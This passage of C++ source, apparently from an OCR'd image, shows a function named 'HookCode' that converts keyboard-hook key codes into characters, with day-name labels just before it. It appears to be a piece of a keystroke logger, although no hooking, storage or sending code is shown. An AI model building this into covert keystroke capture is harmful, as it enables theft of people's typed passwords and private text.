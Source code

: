 ```
    case 5: name = "[FRIDAY]"; break;
    case 6: name = "[SATURDAY]"; break;
    default:
        name = "[UNKOWN]";
    }
    return name;
}


// 键盘消息转化位字符
string HookCode(DWORD code, BOOL caps, BOOL shift)
{
    string key;
    switch (code) // SWITCH ON INT
    {
        // Char keys for ASCI
        // No VM Def in header 
    case 0x41: key = caps ? (shift ? "a" : "A") : (shift ? "A" : "a"); break;
    case 0x42: key = caps ? (shift ? "b" : "B") : (shift ? "B" : "b"); break;
    case 0x43: key = caps ? (shift ? "c" : "C") : (shift ? "C" : "c"); break;
    case 0x44: key = caps ? (shift ? "d" : "D") : (shift ? "D" : "d"); break;
    case 0x45: key = caps ? (shift ? "e" : "E") : (shift ? "E" : "e"); break;
    case 0x46: key = caps ? (shift ? "f" : "F") : (shift ? "F" : "f"); break;
    case 0x47: key = caps ? (shift ? "g" : "G") : (shift ? "G" : "g"); break;
    case 0x48: key = caps ? (shift ? "h" : "H") : (shift ? "H" : "h"); break;
    case 0x49: key = caps ? (shift ? "i" : "I") : (shift ? "I" : "i"); break;
    case 0x4A: key = caps ? (shift ? "j" : "J") : (shift ? "J" : "j"); break;
    case 0x4B: key = caps ? (shift ? "k" : "K") : (shift ? "K" : "k"); break;
    case 0x4C: key = caps ? (shift ? "l" : "L") : (shift ? "L" : "l"); break;
    case 0x4D: key = caps ? (shift ? "m" : "M") : (shift ? "M" : "m"); break;
    case 0x4E: key = caps ? (shift ? "n" : "N") : (shift ? "N" : "n"); break;
    case 0x4F: key = caps ? (shift ? "o" : "O") : (shift ? "O" : "o"); break;
    case 0x50: key = caps ? (shift ? "p" : "P") : (shift ? "P" : "p"); break;
    case 0x51: key = caps ? (shift ? "q" : "Q") : (shift ? "Q" : "q"); break;
    case 0x52: key = caps ? (shift ? "r" : "R") : (shift ? "R" : "r"); break;
    case 0x53: key = caps ? (shift ? "s" : "S") : (shift ? "S" : "s"); break;
    case 0x54: key = caps ? (shift ? "t" : "T") : (shift ? "T" : "t"); break;
    case 0x55: key = caps ? (shift ? "u" : "U") : (shift ? "U" : "u"); break;
    case 0x56: key = caps ? (shift ? "v" : "V") : (shift ? "V" : "v"); break;
    case 0x57: key = caps ? (shift ? "w" : "W") : (shift ? "W" : "w"); break;
    case 0x58: key = caps ? (shift ? "x" : "X") : (shift ? "X" : "x"); break;
    case 0x59: key = caps ? (shift ? "y" : "Y") : (shift ? "Y" : "y"); break;
    case 0x5A: key = caps ? (shift ? "z" : "Z") : (shift ? "Z" : "z"); break;
        // Sleep Key
    case VK_SLEEP: key = "[SLEEP]"; break;
        // Num Keyboard 
    case VK_NUMPAD0:  key = "0"; break;
    case VK_NUMPAD1:  key = "1"; break;
    case VK_NUMPAD2: key = "2"; break;
    case VK_NUMPAD3:  key = "3"; break;
    case VK_NUMPAD4:  key = "4"; break;
    case VK_NUMPAD5:  key = "5"; break;
    case VK_NUMPAD6:  key = "6"; break;
    case VK_NUMPAD7:  key = "7"; break;
    case VK_NUMPAD8:  key = "8"; break;
    case VK_NUMPAD9:  key = "9"; break;
    case VK_MULTIPLY: key = "*"; break;
    case VK_ADD:      key = "+"; break;
    case VK_SEPARATOR: key = "-"; break;
    case VK_SUBTRACT: key = "-"; break;
    case VK_DECIMAL:  key = "."; break;
    case VK_DIVIDE:   key = "/"; break;
        // Function Keys
```